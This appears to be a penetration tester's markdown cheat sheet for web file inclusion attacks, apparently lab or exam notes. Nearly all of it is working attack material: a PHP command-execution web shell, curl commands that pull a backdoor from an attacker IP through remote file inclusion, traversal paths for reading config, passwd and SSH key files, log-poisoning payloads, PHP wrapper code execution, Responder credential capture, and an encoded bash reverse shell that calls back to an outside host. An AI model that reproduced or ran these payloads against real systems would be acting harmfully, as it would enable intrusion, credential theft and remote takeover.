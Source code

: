 #webapp 


### RFI

#### Catching the creds

```bash
sudo responder -I tun0 -wv
```

```bash
http://192.168.248.165:8080/?url=http://192.168.45.156
```
#### Backdoor Execution

1. Create a backdoor

```
vi simple-backdoor.php
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>

#Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```

2. Inject to the vulnerable parameter

```bash
curl "http://192.168.237.58/image.php?img=http://192.168.45.206/ivan_back.php"
```

OR

```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
```


**Using Apache**
```bash
sudo nano /var/www/html/RFI.txt
```

```bash
systemctl start apache2  
```

**Python Server**

```bash
cd /usr/share/webshells/php
```

```bash
sudo python3 -m http.server 80
```

```bash
curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.45.243/simple-backdoor.php&cmd=cat%20/home/elaine/.ssh/authorized_keys"   
```
### LFI
🔴 If IIS - Replace C: with 5  ..\

```bash
http://192.168.186.220/download?filename=...%5C..%5C..%5C..%5C..%5Cinetpub%5Cwwwroot%5Cappsettings.json
```

```bash
http://192.168.186.220/download?filename=...%5C..%5C..%5C..%5C..%5Cinetpub%5Cwwwroot%5Cweb.config
```


Check with if viewable

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
```
#### Log file pollusion

1. Enter below command in any parameter injectable

```php
<?php echo system($_GET['cmd']); ?>
```
or
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
2. Check if its injected
```bash
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
or
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```

3. Then execute the reverseshell
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```


**SHell**

[[Shells]]

#### Warappers

**Below test wrapper will display the PHP content in base64**

```bash
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

**Below wrapper will execute code inside the  PHP  file**

```bash
http://10.11.0.22/menu.php?file=data://text/plain,<?php echo shell_exec("dir");?>
```
🔴 try to url encode the payload if this doesnt work


